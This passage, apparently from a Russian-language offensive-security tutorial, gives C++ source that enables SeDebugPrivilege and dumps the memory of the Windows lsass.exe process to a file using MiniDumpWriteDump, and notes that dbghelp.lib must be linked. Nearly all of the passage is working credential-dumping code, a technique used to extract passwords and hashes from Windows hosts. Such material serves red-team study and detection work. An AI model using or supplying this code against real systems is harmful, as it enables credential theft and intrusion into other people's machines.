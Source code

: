 ```cpp
  CloseHandle(hSnapshot);
  return pid;
}

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
   (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, 
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumped; 
}

int main(int argc, char* argv[]) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!createMiniDump()) return -1;
  return 0;
}
```

Как можно заметить, не забудьте добавить `dbghelp.lib` в качестве зависимости:     

```cpp
#pragma comment (lib, "dbghelp.lib")
```
